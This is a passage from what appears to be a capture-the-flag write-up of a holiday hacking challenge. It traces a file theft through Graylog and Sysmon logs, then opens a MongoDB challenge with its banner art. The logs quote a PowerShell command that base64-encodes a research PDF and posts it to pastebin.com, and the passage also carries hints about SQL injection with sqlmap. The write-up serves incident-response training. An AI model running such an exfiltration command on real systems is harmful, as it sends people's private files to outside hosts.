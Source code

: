 Even with such a generic query only two results comes up of which one is the process creation for powershell with command line C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" } thus highlighting that the file was exfiltrated to pastebin.com from PID 1232.

It is possible to verify network events related to this PID with query:
	EventID:3 AND ProcessId:1232
Only one event shows up in the logs, confirming the destination hostname and providing the destination IP 104.22.3.84.
2.9.11.3. Flag
The flag is: 104.22.3.84.
2.9.11.4. Afterwords
We can look for the original document in CommandLine using regex.
When we do that, we see a long a long PowerShell command using Invoke-Webrequest to a remote URL of https://pastebin.com/post.php.
We can pivot off of this information to look for a sysmon network connection id of 3 with a source of elfu-res-wks2 and DestinationHostname of pastebin.com.
2.9.12. Afterwords
In the graylog web ui:
Incident Response Report #7830984301576234 Submitted.
Incident Fully Detected!

Speaking again with Pepper Minstix:
That's it - hooray! Have you had any luck retrieving scraps of paper from the Elf U server? You might want to look into SQL injection techniques. OWASP is always a good resource for web attacks. For blind SQLi, I've heard Sqlmap is a great tool. In certain circumstances though, you need custom tamper scripts to get things going!
2.10. Mongo Pilfer
2.10.1. Description
Speaking with Holly Evergreen:
Hey! It's me, Holly Evergreen! My teacher has been locked out of the quiz database and can't remember the right solution. Without access to the answer, none of our quizzes will get graded. Can we help get back in to find that solution? I tried lsof -i, but that tool doesn't seem to be installed. I think there's a tool like ps that'll help too. What are the flags I need? Either way, you'll need to know a teensy bit of Mongo once you're in. Pretty please find us the solution to the quiz!

Mongo Pilfer motd:
'...',...'::'''''''''cdc,',,,,,,,cxo;,,,,,,,,:dl;,;;:;;;;;l:;;;cx:;;:::::lKXkc::
oc;''.',coddol;''';ldxxxxoc,,,:oxkkOkdc;,;:oxOOOkdc;;;:lxO0Oxl;;;;:lxOko::::::cd
ddddocodddddddxxoxxxxxkkkkkkxkkkkOOOOOOOxkOOOOOOO00Oxk000000000xdk00000K0kllxOKK
coddddxxxo::ldxxxxxxdl:cokkkkkOkxl:lxOOOOOOOkdlok0000000Oxok00000000OkO0KKKKKKKK
'',:ldl:,'''',;ldoc;,,,,,,:oxdc;,,,;;;cdOxo:;;;;;:ok0kdc;;;;:ok00kdc:::lx0KK0xoc
oc,''''';cddl:,,,,,;cdkxl:,,,,,;lxOxo:;;;;;:ldOxl:;;:;;:ldkoc;;::;;:oxo:::ll::co
xxxdl:ldxxxxkkxocldkkkkkkkkocoxOOOOOOOkdcoxO000000kocok000000kdccdk00000ko:cdk00
oxxxxxxxxkddxkkkkkkkkkdxkkkkOOOOOOxOOOOO00OO0Ok0000000000OO0000000000O0000000000
',:oxkxoc;,,,:oxkkxo:,,,;ldkOOkdc;;;cok000Odl:;:lxO000kdc::cdO0000xoc:lxO0000koc
l;'',;,,,;lo:,,,;;,,;col:;;;c:;;;col:;;:lc;;:loc:;:co::;:oo:;;col:;:lo:::ldl:::l
kkxo:,:lxkOOOkdc;;ldOOOOOkdc;:lxO0000ko:;:oxO000Oxl::cdk0000koc::ox0KK0ko::cok0K
kkkkOkOOOOOkOOOOOOOOOOOOOOOOOO0000000000O0000000000000000000000O000KKKKKK0OKKKKK
,:lxOOOOxl:,:okOOOOkdl;:lxO0000Oxl:cdk00000Odlcok000000koclxO00000OdllxOKKKK0kol
l;,,;lc;,,;c;,,;lo:;;;cc;;;cdoc;;;l:;;:oxoc::cc:::lxxl:::l:::cdxo:::lc::ldxoc:cl
KKOd:,;cdOXXXOdc;;:okKXXKko:;;cdOXNNKxl:::lkKNNXOo:::cdONNN0xc:::oOXNN0xc::cx0NW
XXXXX0KXXXXXXXXXK0XXXXXXNNNX0KNNNNNNNNNX0XNNNNNNNNN0KNNNNNNNNNK0NNNNNNNWNKKWWWWW
:lxKXXXXXOdcokKXXXXNKkolxKNNNNNN0xldOXNNNNNXOookXNNNNWN0xokKNNNNNNKxoxKWWNWWXOod
:;,,cdxl;,;:;;;cxOdc;;::;;:dOOo:;:c:::lk0xl::cc::lx0ko:::c::cd0Odc::c::cx0ko::lc
OOxl:,,;cdk0Oxo:;;;:ok00Odl:;;:lxO00koc:::ldO00kdl:::cok0KOxl:::cok0KOxl:::lx0KK
00000kxO00000000OxO000000000kk000000000Ok0KK00KKKK0kOKKKKKKKK0kOKKKKKKKK0k0KKKKK
:cok00000OxllxO000000koldO000000Odlok0KKKKKOxoox0KKKKK0koox0KKKKK0xoox0KKKKKkdld
;:,,:oxoc;;;;;;cokdl:;;:;;coxxoc::c:::lxkdc::c:::ldkdl::cc::ldkdl::lc::lxxoc:loc
OOkdc;;;:oxOOkoc;;;:lxO0Odl:;::lxO00koc:::lxO00kdl:::lxO00Odl::cox0KKOdl:cox0KK0
OOOOOOxk00000000Oxk000000000kk000000000Ok0KK0000KK0k0KKKKKKKK0OKKKKKKKKK00KKK0KK
c:ldOOOO0Oxoldk000000koldk000000kdlox0000K0OdloxOKK0K0kdlox0KKKK0xocok0KKK0xocld